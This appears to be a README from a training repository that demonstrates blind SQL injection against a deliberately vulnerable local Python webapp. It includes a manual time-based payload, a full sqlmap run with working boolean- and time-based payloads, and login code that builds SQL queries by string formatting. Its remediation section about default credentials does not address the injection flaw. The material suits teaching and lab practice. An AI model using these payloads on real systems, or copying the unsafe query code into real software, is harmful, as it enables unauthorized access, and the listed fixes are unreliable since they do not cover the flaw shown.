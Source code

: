 <p align="center"> <img src="https://raw.githubusercontent.com/qeeqbox/blind-sql-injection/main/content/blind-sql-injection.svg"></p>

An application enables users to interact with a database insecurely. A threat actor can exploit this feature by injecting a malicious query into a trusted web application. When the malicious query is executed, the application behaves normally without showing errors. This type of behavior indicates that the attack is blind

Clone this current repo recursively
```sh
git clone --recursive https://github.com/qeeqbox/blind-sql-injection
```
Run the webapp using Python
```sh
python3 blind-sql-injection/vulnerable-web-app/webapp.py
```
Open the webapp in your browser 127.0.0.1:5142
<p align="center"> <img src="https://raw.githubusercontent.com/qeeqbox/blind-sql-injection/main/content/1.png"></p>
Right-click on the page and open Developer Tools, then Networking (This will be used to determine the time taken for the web application to respond for login)
<p align="center"> <img src="https://raw.githubusercontent.com/qeeqbox/blind-sql-injection/main/content/2.png"></p>
Type in the username: ' OR RANDOMBLOB(1000000000/2)-- and password: test, if executed, the web application will be vulnerable to blind SQL injection, and that payload will cause a delay
<p align="center"> <img src="https://raw.githubusercontent.com/qeeqbox/blind-sql-injection/main/content/3.png"></p>
The payload was executed successfully and caused a delay
<p align="center"> <img src="https://raw.githubusercontent.com/qeeqbox/blind-sql-injection/main/content/4.png"></p>

```sh
user@users-Mac-mini vulnerable-web-app % sqlmap http://127.0.0.1:5142/login --data 'username=test&password=test' -p 'username' --dbms=sqlite --level 5 --risk 3 --ignore-code 401 --batch
        ___
       __H__
 ___ ___[.]_____ ___ ___  {1.9.7#stable}
|_ -| . [)]     | .'| . |
|___|_  [)]_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 11:20:04 /2025-07-26/

[11:20:04] [INFO] testing connection to the target URL
[11:20:04] [INFO] testing if the target URL content is stable
[11:20:05] [INFO] target URL content is stable
[11:20:05] [WARNING] heuristic (basic) test shows that POST parameter 'username' might not be injectable
[11:20:05] [INFO] heuristic (XSS) test shows that POST parameter 'username' might be vulnerable to cross-site scripting (XSS) attacks
[11:20:05] [INFO] testing for SQL injection on POST parameter 'username'
[11:20:05] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause'
[11:20:05] [WARNING] reflective value(s) found and filtering out
[11:20:05] [INFO] testing 'OR boolean-based blind - WHERE or HAVING clause'
got a 302 redirect to 'http://127.0.0.1:5142/'. Do you want to follow? [Y/n] Y
redirect is a result of a POST request. Do you want to resend original POST data to a new location? [y/N] N
[11:20:05] [INFO] POST parameter 'username' appears to be 'OR boolean-based blind - WHERE or HAVING clause' injectable (with --code=200)
[11:20:05] [INFO] testing 'Generic inline queries'
[11:20:05] [INFO] testing 'SQLite inline queries'
[11:20:05] [INFO] testing 'SQLite > 2.0 stacked queries (heavy query - comment)'
[11:20:05] [INFO] testing 'SQLite > 2.0 stacked queries (heavy query)'
[11:20:05] [INFO] testing 'SQLite > 2.0 AND time-based blind (heavy query)'
[11:20:05] [INFO] testing 'SQLite > 2.0 OR time-based blind (heavy query)'
[11:20:13] [INFO] POST parameter 'username' appears to be 'SQLite > 2.0 OR time-based blind (heavy query)' injectable 
[11:20:13] [INFO] testing 'Generic UNION query (NULL) - 1 to 20 columns'
[11:20:13] [INFO] automatically extending ranges for UNION query injection technique tests as there is at least one other (potential) technique found
[11:20:13] [INFO] target URL appears to be UNION injectable with 7 columns
injection not exploitable with NULL values. Do you want to try with a random integer value for option '--union-char'? [Y/n] Y
[11:20:13] [INFO] testing 'Generic UNION query (99) - 21 to 40 columns'
[11:20:13] [INFO] testing 'Generic UNION query (99) - 41 to 60 columns'
[11:20:14] [INFO] testing 'Generic UNION query (99) - 61 to 80 columns'
[11:20:14] [INFO] testing 'Generic UNION query (99) - 81 to 100 columns'
[11:20:14] [WARNING] in OR boolean-based injection cases, please consider usage of switch '--drop-set-cookie' if you experience any problems during data retrieval
[11:20:14] [INFO] checking if the injection point on POST parameter 'username' is a false positive
POST parameter 'username' is vulnerable. Do you want to keep testing the others (if any)? [y/N] N
sqlmap identified the following injection point(s) with a total of 304 HTTP(s) requests:
---
Parameter: username (POST)
    Type: boolean-based blind
    Title: OR boolean-based blind - WHERE or HAVING clause
    Payload: username=-6373' OR 4741=4741-- IGcq&password=test

    Type: time-based blind
    Title: SQLite > 2.0 OR time-based blind (heavy query)
    Payload: username=test' OR 3859=LIKE(CHAR(65,66,67,68,69,70,71),UPPER(HEX(RANDOMBLOB(500000000/2))))-- atch&password=test
---
[11:20:14] [INFO] the back-end DBMS is SQLite
back-end DBMS: SQLite
[11:20:14] [WARNING] HTTP error codes detected during run:
401 (Unauthorized) - 240 times
[11:20:14] [INFO] fetched data logged to text files under '/Users/user/.local/share/sqlmap/output/127.0.0.1'

[*] ending @ 11:20:14 /2025-07-26/
```

## Code
When user send a username and password in POST request to the login route, the check_creds() is called 
```py
if parsed_url.path == "/login" and "username" in post_request_data and "password" in post_request_data:
    ret = self.check_creds(post_request_data['username'][0],post_request_data['password'][0])
    if isinstance(ret, list) and ret[0] == "valid":
        self.send_content(302, self.gen_cookie(ret[1],60*15)+[('Location', URL)], None)
        self.log_message("%s logged in" % post_request_data['username'][0])
        return
    elif isinstance(ret, list) and ret[0] == "password":
        self.send_content(401, [('Content-type', 'text/html')], self.msg_page(f"Password is wrong".encode("utf-8"), b"login"))
        return
    elif isinstance(ret, list) and ret[0] == "username" or isinstance(ret, list) and ret[0] == "error":
        self.send_content(401, [('Content-type', 'text/html')], self.msg_page(f"User {post_request_data['username'][0]} doesn't exist".encode("utf-8"), b"login"))
        return
```
The check_creds() function checks if the username and password value are valid credentials; it does not check if either is sanitized or valid
```py
def check_creds(self, username, password):
    try:
        with connect(DATABASE, isolation_level=None, check_same_thread=False) as connection:
            cursor = connection.cursor()
            ret = cursor.execute("SELECT * FROM users WHERE username='%s'" % (username)).fetchall()
            if ret:
                ret = cursor.execute("SELECT * FROM users WHERE username='%s' AND hash='%s'" % (username,sha512(password.encode("utf-8")+SALT).hexdigest())).fetchone()
                if ret:
                    return ["valid",ret]
                else:
                    return ["password",ret]
            else:
                return ["username", username]
    except Exception as e:
        return ["error",str(e).encode("utf-8")] 
```
```
 
## Impact
Vary

## Risk
- Unauthorized Access
- System Compromise
- Operational Disruption
- Legal and Financial Damage
  - Compliance Failures
  - Reputation Damage

## Redemption
- Disable, remove or change default credentials
- Alternative Authentication Mechanisms

## ID
91f9b046-b802-425a-b71b-64c21c6b1c0f
